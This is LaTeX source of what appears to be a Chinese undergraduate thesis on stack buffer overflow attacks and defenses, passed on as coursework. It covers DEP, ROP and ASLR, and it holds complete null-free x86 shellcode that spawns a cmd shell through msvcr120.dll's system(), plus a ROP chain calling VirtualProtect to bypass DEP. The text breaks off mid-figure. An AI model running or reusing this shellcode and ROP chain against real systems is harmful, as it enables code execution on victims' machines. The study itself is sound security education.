\documentclass[bachelor]{thesis-uestc}
\usepackage{indentfirst}
\usepackage{amssymb, amsmath}
\usepackage{graphicx, subfigure}
\usepackage{algorithm, algorithmic, float}
% 没有使用thesis-uestc的算法模板, 需将thesis-uestc中的相关内容注释掉, 避免冲突
\usepackage{listings}
\usepackage{fancyhdr}
\usepackage{booktabs}
\usepackage{float}

%\begin{figure}[htbp]
%	\centering\includegraphics[height=9cm]{images/pic.png}
%	\caption{caption_name}
%	\label{fig:pic}
%\end{figure}

%\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]

%\end{lstlisting}

% ----------------------------------------- Document -----------------------------------------
\begin{document}

% ----------------------------------------- 目录 -----------------------------------------
\thesistableofcontents

% ----------------------------------------- 正文 -----------------------------------------
\thesischapterexordium % 第一章 课题背景
缓冲区溢出漏洞是网络信息安全中最具破坏力的安全漏洞之一,因此缓冲区溢出攻击成为了最为普遍、危害最大的一种攻击方式。缓冲区溢出中最危险的是堆栈溢出, 入侵者可以利用堆栈溢出, 在函数返回时改变返回程序的地址, 让其跳转到任意地址, 更为严重的是, 它可被利用来执行非授权指令, 甚至可以取得系统特权, 进而进行各种恶意操作。在2017年,影响最为广泛的``永恒之蓝''勒索病毒也是利用了缓冲区溢出漏洞。\par
缓冲区溢出漏洞在各种操作系统和应用软件中广泛存在。在目前的网络与操作系统安全领域,有很大部分的安全问题都是由于存在缓冲区溢出漏洞造成的。从缓冲区溢出攻击第一次出现到现在, 大量信息安全的研究者致力于如何尽量避免缓冲区溢出的产生, 及时发现软件中缓冲区溢出的漏洞, 有效防御缓冲溢出攻击的研究, 产生了不少有用、有效的缓冲区溢出防御的方法和技术。

\chapter{相关技术介绍}
\section{缓冲区溢出概述}
缓冲区溢出,就是向固定长度的缓冲区中写入超出其预告分配长度的内容,造成缓冲区中数据的溢出,从而覆盖了缓冲区周围的内存空间。黑客借此精心构造填充数据,导致原有流程的改变,让程序转而执行特殊的代码,最终获取控制权。

\section{缓冲区溢出原理}
程序中发生函数调用时,计算机做如下操作:
\begin{itemize}
	\item 首先把指令寄存器EIP(它指向当前CPU将要运行的下一条指令的地址)中的内容压入栈,作为程序的返回地址(一般用RET表示);
	\item 之后放入栈的是基址寄存器EBP,它指向当前函数栈帧(stack frame)的底部;
	\item 然后把当前的栈顶指针ESP拷贝到EBP,作为新的基地址;
	\item 最后为本地变量的动态存储分配留出一定空间,并把ESP减去适当的数值。
\end{itemize}
如果精确控制拷贝到缓冲区的字节,那么就可以将函数的返回地址覆盖成恶意代码的起始地址,从而劫持程序控制流,执行恶意代码。

\section{Shellcode原理}
缓冲区溢出的制造者最终是希望目标机器运行自己需要的机器指令。攻击者定位在一个可供溢出的局部变量,然后向程序传递一个设计好的长字符串,将设计好的shellcode机器码编码进其中,使得缓冲区溢出后将函数的返回地址覆盖成shellcode的地址,以此获得shellcode的执行权。事实上,只有当缓冲区所在的内存页面是可执行的时候才能直接在上面执行shellcode,否则试图执行shellcode时会触发页面错误异常,导致程序崩溃。

\chapter{关键技术研究}
\section{栈破坏检测/栈安全检查}
这是一种防御栈溢出的技术,它通过在函数的返回地址前保存一个随机数x,并在执行``RET''之前检测该随机数x是否被修改,从而实现溢出检测。该技术的原理是,如果试图在栈上进行缓冲区溢出并覆盖函数的返回地址,那么就必然会将随机数x覆盖掉。如果检测到随机数x被修改,那么就说明发生了栈溢出。

\section{数据执行保护(DEP)}
DEP的原理是将堆栈所在的内存页面设置为不可执行。如果开启DEP,那么任何试图执行栈上的shellcode的操作都会触发异常并导致程序崩溃。

\section{面向返回的编程(ROP)}
为了突破DEP,ROP技术应运而生。由于栈上的shellcode不可执行,所以攻击者扫描已有的动态链接库和可执行文件,提取出可以利用的指令片段(gadget),这些指令片段均以ret指令结尾,即用ret指令实现指令片段执行流的衔接。ROP方法技巧性很强,那它能完全胜任所有攻击吗?返回语句前的指令是否会因为功能单一,而无法实施预期的攻击目标呢?经充分研究,现已证明ROP方法是图灵完备的,也就是说,ROP可以实现任何逻辑功能。\par
另外,ROP技术能够被实现的重要原因还在于x86、x64是复杂指令集(CISC),指令密集性很高,存在大量的变长指令,几乎可以从任何地址开始译码而得到不同的指令序列。

\section{地址空间布局随机化(ASLR)}
ASLR是用于防御ROP技术的。ROP技术一般需要对来自其他模块的指令片段(gadget)的地址进行硬编码,如果系统重启,那么由于所需模块加载基地址的变化,先前的ROP链就会失效。如果试图动态地查找模块的基地址,那么又会面临DEP,所以DEP和ASLR形成了一个闭环,能够在很大程度上缓解栈溢出攻击。

\chapter{系统实现}
\section{shellcode设计}
shellcode要实现的功能是:以字符串``cmd''为参数,调用C库的system()函数启动一个shell。

\subsection{获取C库的加载基地址}
在安装了vs2013的win7 x64或x64操作系统中,Release版本的win32程序使用的C库是msvcr120.dll,该DLL在程序加载时被映射到进程的地址空间内,因此需要获取该DLL模块的加载基地址。
win32程序进程的地址空间中,FS:[0x30]处保存着一个指向进程环境块(PEB)的指针。PEB结构如下:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
typedef struct _PEB {
	BYTE                          Reserved1[2];
	BYTE                          BeingDebugged;
	BYTE                          Reserved2[1];
	PVOID                         Reserved3[2];
	PPEB_LDR_DATA                 Ldr; // +0x0c 
	PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
	PVOID                         Reserved4[3];
	PVOID                         AtlThunkSListPtr;
	PVOID                         Reserved5;
	ULONG                         Reserved6;
	PVOID                         Reserved7;
	ULONG                         Reserved8;
	ULONG                         AtlThunkSListPtr32;
	PVOID                         Reserved9[45];
	BYTE                          Reserved10[96];
	PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
	BYTE                          Reserved11[128];
	PVOID                         Reserved12[1];
	ULONG                         SessionId;
} PEB, *PPEB
\end{lstlisting}

PEB结构体偏移+0x0c处是一个指向PEB\_LDR\_DATA结构的指针。PEB\_LDR\_DATA结构如下:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
typedef struct _PEB_LDR_DATA
{
	ULONG	Length; // +0x00
	BOOLEAN	Initialized; // +0x04
	PVOID	SsHandle; // +0x08
	LIST_ENTRY InLoadOrderModuleList; // +0x0c
	LIST_ENTRY InMemoryOrderModuleList; // +0x14
	LIST_ENTRY InInitializationOrderModuleList;// +0x1c
} PEB_LDR_DATA,*PPEB_LDR_DATA;
\end{lstlisting}

PEB\_LDR\_DATA结构偏移+0x0c处是一个LIST\_ENTRY结构,PEB\_LDR\_DATA::\\InLoadOrderModuleList.Flink指向一个双向循环链表的头结点,该双向循环链表按照模块的加载顺序将记录模块信息的LDR\_MODULE结构连接起来。LDR\_MODULE结构如下:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
typedef struct _LDR_MODULE {
	LIST_ENTRY              InLoadOrderModuleList; // 按加载顺序构成的模块链表 +0x00
	LIST_ENTRY              InMemoryOrderModuleList; // 按内存顺序构成的模块链表 +0x08
	LIST_ENTRY              InInitializationOrderModuleList; // 按初始化顺序构成的模块链表 +0x10
	PVOID                   BaseAddress; // 该模块的基地址 +0x18
	PVOID                   EntryPoint; // 该模块的入口 +0x1c
	ULONG                   SizeOfImage; // 该模块的影像大小 +0x20
	UNICODE_STRING          FullDllName; // 包含路径的模块名 +0x24
	UNICODE_STRING          BaseDllName; // 不包含路径的模块名 +0x28
	ULONG                   Flags;
	SHORT                   LoadCount; // 该模块的引用计数
	SHORT                   TlsIndex;
	HANDLE                  SectionHandle;
	ULONG                   CheckSum;
	ULONG                   TimeDateStamp;
} LDR_MODULE, *PLDR_MODULE;
\end{lstlisting}

遍历这个连接了LDR\_MODULE的双向循环链表,如果LDR\_MODULE::BaseDllName与需要查找的模块名相符,就可以从LDR\_MODULE::BaseAddress取得模块基地址。

\subsection{获取C库的system()函数入口地址并完成调用}
system()函数是msvcr120.dll的导出函数,使用PEview打开后可以在SECTION.text的EXPORT Address Table中获得以下信息:RVA 0x35D0处保存着system()的入口RVA为0x808C2(如图\ref{fig:libc_system_rva}所示),那么模块的加载基地址加上0x808C2就是system()的入口地址。

\begin{figure}[htbp]
	\centering
\includegraphics[width=8cm]{images/libc_system_rva.png}
	\caption{使用PEview查看msvcr120.dll的EXPORT Address Table}
	\label{fig:libc_system_rva}
\end{figure}

既然要以``cmd''为参数调用system()就要获得该字符串的地址。一种方法是直接将其嵌入shellcode,但这样就需要重定位,从而消耗更多的代码;本着shellcode的代码字节数越少越好的原则,这里选择另一种方法。可以在msvcr120.dll内找到字符串``cmd'',根据其RVA就可以获得实际地址。具体做法是,使用UltraEdit搜索之,然后在PEview中查看其RVA,如图\ref{fig:libc_cmd_rva}所示。

\begin{figure}[htbp]
	\centering
\includegraphics[width=12cm]{images/libc_cmd_rva.png}
	\caption{使用PEview查看msvcr120.dll的``cmd''字符串RVA}
	\label{fig:libc_cmd_rva}
\end{figure}

至此,已获得了system()和所需参数的地址,完成函数调用即可。

\subsection{shellcode的调整}
溢出攻击通常是基于strcpy()的漏洞,如果shellcode内包含0x00就会使得shellcode无法被完全拷贝,因此需要消除机器码中的0x00,比如``\# cmp eax, 0''和``\# mov eax, 1''之类指令就不能出现,应该使用等价指令例如``\# test eax, eax''和``\# xor eax, eax \# inc eax''进行替换。\par
还有一个关键问题,shellcode要完成模块msvcr120.dll的查找,此时就会涉及字符串的匹配,那么就需要把字符串``msvcr120.dll''嵌入shellcode,因此需要进行重定位。简单的重定位代码如下:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
	CALL XXX;
XXX:
	POP EAX;
\end{lstlisting}

首先CALL指令将下一条指令的地址压栈,然后设置EIP为标号XXX的地址,于是就会执行``POP EAX'',而被CALL指令压栈的``下一条指令的地址''正好是标号XXX的实际地址(也就是``POP EAX''这条指令的实际地址),所以它就会被弹入EAX,shellcode就可以知道自己的实际地址,这就是EIP的自定位。但是这样的指令不能应用到shellcode中,因为``CALL XXX''的机器码是``E8 00 00 00 00''。为了实现EIP的自定位,可以使用如下的机器码:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
CODE_ENTRY:
/* 0 */	 0xE8;
/* 1 */	 0xFF;
/* 2 */	 0xFF;
/* 3 */	 0xFF;
/* 4 */	 0xFF; // call 0xFFFFFFFF
LABEL_BASE:
/* 5 */	 0xC2;
/* 6 */	 0x59;
/* 7 */	 0x90;
\end{lstlisting}

``call -1''后LABEL\_BASE的地址被压栈, 然后eip指向标号4, 将标号4和5的``FFC2''译码成``inc edx''; 然后执行标号6的``pop ecx''(0x59), 将保存在栈顶的LABEL\_BASE的地址pop进ecx; 之后执行标号7的``nop''(0x90). 至此实现了自定位——LABEL\_BASE的地址被保存在ecx。

\subsection{最终的shellcode}
\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
__asm
{
/*********************************************************/
/*                    CODE_ENTRY                         */
/*********************************************************/
CODE_ENTRY:
/* 0 */	_EMIT 0xE8;
/* 1 */	_EMIT 0xFF;
/* 2 */	_EMIT 0xFF;
/* 3 */	_EMIT 0xFF;
/* 4 */	_EMIT 0xFF; // call 0xFFFFFFFF
LABEL_BASE:
/* 5 */	_EMIT 0xC2;
/* 6 */	_EMIT 0x59;
/* 7 */	_EMIT 0x90;
// "call -1"后LABEL_BASE的地址被压栈, 然后eip指向标号4, 将标号4和5的"FFC2"译码成"inc edx";
// 然后执行标号6的"pop ecx"(59), 将保存在栈顶的LABEL_BASE的地址pop进ecx; 之后执行标号7的"nop"(90).
// 至此实现了自定位——LABEL_BASE的地址被保存在ecx
_GetLibcBaseAddress:
	xor ebx, ebx;
	mov eax, fs:[ebx + 0x30]; // linear address of PEB (直接"mov eax,fs:[0x30]"会使代码中出现0x00)
	mov eax, [eax + 0xc]; // 从PEB结构体偏移0xc处取得PEB_LDR_DATA结构体的地址
	mov ebx, [eax + 0xc]; // ebx <- 第一个LDR_MODULE的地址
	mov edx, ebx; // edx保存循环链表的头地址
SEARCH_MODULE_LOOP:
	mov eax, ebx;
	add eax, 0x2C + 0x4; // LDR_MODULE偏移0x2C处是BaseDllName, 一个UNICODE_STRING, 其中偏移0x4处是一个指向UNICODE字符串的指针
	mov esi, [eax];
	mov edi, LIBC_NAME;
	sub edi, LABEL_BASE; // 这两个label的地址中不能出现0x00, 如果有就重新编译知道满足要求
	add edi, ecx;
/*********************************************************/
/*        bool _strcmp(wchar *s1, char *s2)              */
/*        - args: esi = s1, edi = s2(end with '$')       */
/*        - ret: al=1 if equal, al=0 if NOT equal        */
/*********************************************************/
// 这里本可以写成"call _strcmp", 但是这样会在代码中出现0x00, 所以直接将函数嵌入进来
_strcmp:
	push ebx;
LOOP_CMP_STRCMP:
	mov al, [esi];
	mov bl, [edi];
	cmp al, bl;
	je CONTINUE_STRCMP;
	test al, al;
	jnz NOT_EQUAL_STRCMP;
	cmp bl, '$'; // 两个字符串同时结束时al=0,bl='$'
	jne NOT_EQUAL_STRCMP;
	xor al, al;
	inc al; // equal (这两条指令用于替代"mov al,1")
	jmp END_STRCMP;
CONTINUE_STRCMP:
	inc esi;
	inc esi; // 两个"inc esi"一共2字节,一个"add esi,2"却需要3字节
	inc edi;
	jmp LOOP_CMP_STRCMP;
NOT_EQUAL_STRCMP:
	xor al, al; // not equal
END_STRCMP:
	pop ebx;
/******************** end of _strcmp ********************/
	cmp al, 1; // al==1 equal; al==0 not equal
	je MODULE_FOUND;
	mov ebx, [ebx];
	cmp ebx, edx;
	je MODULE_NOT_FOUND; // 循环链表已经遍历完了
	jmp SEARCH_MODULE_LOOP;
MODULE_FOUND:
	mov eax, [ebx + 0x18]; // LDR_MODULE偏移0x18处是模块的线性基地址BaseAddress
_GetSystemFuncEntry:
	mov ebx, eax;
	sub ebx, 0xfff9dec7;
	sub eax, 0xfff7f73e; // 用sub替换add, 使得代码中没有0x00. 加上一个数 <=> 减去这个数的相反数
	//add ebx, 0x62139; // 0x62139是msvcr120.dll中字符串"cmd"的RVA
	//add eax, 0x808c2; // 0x808c2是msvcr120.dll的export address table中记录的system函数的入口RVA
	push ebx;
	call eax; // 获得shell之后就结束了, 不必关注调用结束后的事情
MODULE_NOT_FOUND:
	jmp MODULE_NOT_FOUND; // endless loop
/*********************************************************/
/*                      Data                             */
/*********************************************************/
LIBC_NAME:
	_EMIT 'M';
	_EMIT 'S';
	_EMIT 'V';
	_EMIT 'C';
	_EMIT 'R';
	_EMIT '1';
	_EMIT '2';
	_EMIT '0';
	_EMIT '.';
	_EMIT 'd';
	_EMIT 'l';
	_EMIT 'l';
	_EMIT '$'; // '$'作为结束符, 因为shellcode中不能出现0x00
}
\end{lstlisting}


\section{突破数据执行保护(DEP)}
\subsection{ROP链的构造}
突破DEP的方法是使用ROP链构造VirtualProtect()函数调用,将shellcode所在的栈内存设置为可执行。对WinDbg+mona生成ROP链进行微调,得到:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
	0x5a58ed02, // # pop ebp # ret [msvcr120.dll]
	0x5a58ed02, // # skip 4 bytes [msvcr120.dll]
	0x5a582308, // # pop ebx # ret [msvcr120.dll]
	0x00000201, // 0x00000201 -> ebx [msvcr120.dll]
	0x5a58e734, // # pop edx # ret [msvcr120.dll]
	0x00000040, // 0x00000040 -> edx [msvcr120.dll]
	0x5a58ec8c, // # pop ecx # ret [msvcr120.dll]
	0x5a65e000, // &writable location [msvcr120.dll]
	0x5a58f0f3, // # pop edi # ret [msvcr120.dll]
	0x5a58139b, // # ret [msvcr120.dll]
	0x5a58f74a, // # pop esi # ret [msvcr120.dll]
	0x5a58efd7, // # jmp eax [msvcr120.dll]
	0x5a58469c, // # pop eax # ret [msvcr120.dll]
	0x76b743ce, // entry of VirtualProtect() [kernel32.dll]
	0x5a5846a0, // # pushad # ret [msvcr120.dll]
	0x5a5bac78  // # push esp # ret [msvcr120.dll]
\end{lstlisting}

这段ROP链直接跳转到VirtualProtect()的入口,而不是借助mvscr120.dll的IAT(mona生成的ROP链将EAX的内容设置成msvcr120.dll的IAT中VirtualProtect()对应的地址,通过``JMP [EAX]''跳转到VirtualProtect()。实验时因为无法在win7 64位系统下使用WinDbg+mona所以自己编写程序搜索所需的gadgets,显然直接通过GetProcessAddress()获得API地址的方法要简便些。)。ROP链负责调用VirtualProtect(),其函数原型如下:

\begin{lstlisting}[language=C++, basicstyle=\ttfamily\tiny, numbers=left, numberstyle=\tiny, keywordstyle=\color{blue!70}, commentstyle=\color{red!50!green!50!blue!50}, frame=shadowbox, rulesepcolor=\color{red!20!green!20!blue!20}]
CODE_ENTRY:
BOOL VirtualProtect(
	LPVOID pAddress,
	SIZE_T dwSize,
	DWORD  NewProtect,
	PDWORD pOldProtect
);
\end{lstlisting}

\begin{figure}[htbp]
	\centering
\includegraphics[height=5cm]{images/stack1.png}
	\caption{调用VirtualProtect()时栈的内存布局}
	\label{fig:stack1}
\end{figure}

根据C调用约定,当跳转过去执行VirtualProtect()时栈的内存布局如图\ref{fig:stack1}所示。ROP链的工作就是将相关参数压栈,然后跳转到VirtualProtect()。上面那段ROP链调用VirtualProtect()所使用的参数为:

\begin{itemize}
	\item pAddress = ROP链的最后一个地址(所以需要将shellcode附加到ROP链末尾,这样shellcode就位于VirtualProtect()的影响范围之内)
	\item dwSize = 0x201
	\item NewProtect = PAGE\_EXECUTE\_READWRITE(0x40)
	\item pOldProtect = mvscr120.dll内存映像内的一个可写地址,这可以是.data段内的任意一个地址
\end{itemize}

将上述ROP链和之前构造的shellcode拼接在一起进行栈溢出,就可以突破DEP获得shellcode的执行权,具体的工作流程将在下一章``测试及分析''中详细讨论。

\subsection{ROP链的分析}
当函数即将返回,栈帧如图\ref{fig:rop_chain_s1}所示,此时EIP指向函数末尾的RET指令。\par

执行``RET''后,ESP+=4,栈帧如图\ref{fig:rop_chain_s2}所示;(EIP) = 0x5a58ed02, 指向``POP EBP''。\par

执行``POP EBP''后,(ESP)被弹入EBP,使得\textbf{(EBP)=0x5a58ed02};同时ESP+=4,栈帧如图\ref{fig:rop_chain_s3}所示;EIP指向``POP EBP''后面的``RET''。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a582308,指向``POP EBX'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s4}所示。\par

执行``POP EBX'',将(ESP)=0x00000201弹入EBX,从而\textbf{(EBX)=0x00000201};同时ESP+=4,栈帧如图\ref{fig:rop_chain_s5}所示;EIP指向``POP EBX''后面的``RET''。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a58e734,指向``POP EDX'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s6}所示。\par

执行``POP EDX'',将(ESP)=0x00000040弹入EDX,从而\textbf{(EDX)=0x00000040};同时ESP+=4,栈帧如图\ref{fig:rop_chain_s7}所示;EIP指向``POP EDX''后面的``RET''。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a58ec8c,指向``POP ECX'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s8}所示。\par

执行``POP ECX'',将(ESP)=0x5a65e000弹入ECX,从而\textbf{(ECX)=0x5a65e000};同时ESP+=4,栈帧如图\ref{fig:rop_chain_s9}所示;EIP指向``POP ECX''后面的``RET''。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a58f0f3,指向``POP EDI'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s10}所示。\par

执行``POP EDI'',将(ESP)=0x5a58139b弹入EDI,从而\textbf{(EDI)=0x5a58139b}(这里,EDI保存了一条``RET''指令的地址),同时ESP=+4,栈帧如图\ref{fig:rop_chain_s11}所示;EIP指向``POP EDI''后面的``RET''。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a58f74a,指向``POP ESI'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s12}所示。\par

执行``POP ESI'',将(ESP)=0x5a58efd7弹入ESI,从而\textbf{(ESI)=0x5a58efd7}(这里,ESI保存了一条``JMP EAX''指令的地址),同时ESP=+4,栈帧如图\ref{fig:rop_chain_s13}所示;EIP指向``POP ESI''后面的``RET''。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a58469c,指向``POP EAX'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s14}所示。\par

执行``POP EAX'',将(ESP)=0x76b743ce弹入EAX,从而\textbf{(EAX)=0x76b743ce}(这里,EAX保存了Kernel32.DLL中VirtualProtect()的入口地址),同时ESP=+4,栈帧如图\ref{fig:rop_chain_s15}所示;EIP指向``POP EAX''后面的``RET''。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a5846a0,指向``POPAD'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s16}所示。\par

最关键的一步,执行``PUSHAD'',该指令执行结束后栈帧如图\ref{fig:rop_chain_s17}所示。\par

接着执行``PUSHAD''后面的``RET'',将(EIP)设置成(ESP)=0x5a58139b,指向``RET'';同时ESP+=4,栈帧如图\ref{fig:rop_chain_s18}所示。\par

执行``RET'',将(EIP)设置成(ESP)=0x5a58efd7,指向``JMP EAX''(\textbf{注意到当前EAX的内容是VirtualProtect()的入口地址0x76b743ce});同时ESP+=4,栈帧如图\ref{fig:rop_chain_s19}所示。\par

执行``JMP EAX''就会跳转到VirtualProtect()。此时可以清晰的看到,VirtualProtect()的返回地址以及4个参数的布局,如图\ref{fig:rop_chain_s20}所示。\par

VirtualProtect()返回后的栈帧如图\ref{fig:rop_chain_s21}所示;EIP的内容是``返回地址''0x5a58ed02,那里保存着两条指令``POP EBP''和``RET'',于是就会开始执行``POP EBP'',让ESP跳过4字节,得到如图\ref{fig:rop_chain_s22}所示的栈帧。接着执行``POP EBP''后面的``RET''就会使得(EIP)=0x5a5bac78——``PUSH ESP, RET''指令的地址,同时ESP+=4,得到如图\ref{fig:rop_chain_s23}所示的栈帧。然后执行``PUSH ESP''后再``RET'',就会从图\ref{fig:rop_chain_s23}中ESP所指向的地方开始执行,此时ESP和EIP的内容是一样的,如图\ref{fig:rop_chain_s24}所示。所以,如果把shellcode放到这段ROP链后面,那么ROP链执行结束后就可以开始执行shellcode。\par

\renewcommand{\thesubfigure}{(\arabic{subfigure})}
\begin{figure}[htbp]
	\centering
	\subfigure[]{ % []的作用是生成子图标题(a),(b),(c),... 如果希望生成"(a)test"这样的标题,就在[]内填入test. 默认使用小写字母"(a)"的形式, 但可以自定义,比如这里我将其定义成阿拉伯数字"(1)"的形式
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s1.png}
		\label{fig:rop_chain_s1}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s3.png}
		\label{fig:rop_chain_s2}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s3.png}
		\label{fig:rop_chain_s3}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s4.png}
		\label{fig:rop_chain_s4}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s5.png}
		\label{fig:rop_chain_s5}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s6.png}
		\label{fig:rop_chain_s6}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s7.png}
		\label{fig:rop_chain_s7}}
	\subfigure[]{
		
\includegraphics[width=0.22\linewidth]{images/rop_chain_s8.png}
		\label{fig:rop_chain_s8}}
	\subfigure[]{
